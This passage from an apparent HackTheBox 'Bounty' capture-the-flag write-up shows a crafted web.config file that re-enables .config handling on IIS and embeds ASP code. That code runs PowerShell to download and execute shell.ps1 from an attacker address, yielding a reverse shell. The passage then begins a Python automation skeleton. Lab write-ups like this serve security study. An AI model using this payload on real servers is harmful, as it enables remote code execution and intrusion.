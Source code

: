 So we adapt of web.config and upload it to the server

web.config

```aspx
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!-- ASP.NET code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.18/shell.ps1')") 
o = cmd.StdOut.Readall()
Response.write(o) %>
-->
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2009:32:13.png)

When we click upload and execute it, we receive the reverse shell on port 4444

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2010:01:01.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2010:00:50.png)

# Script

Now we will build a script to automate it, and gain a reverse shell automated

We got a skeleton in python to start working on it

```py
#!/usr/bin/python3

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
```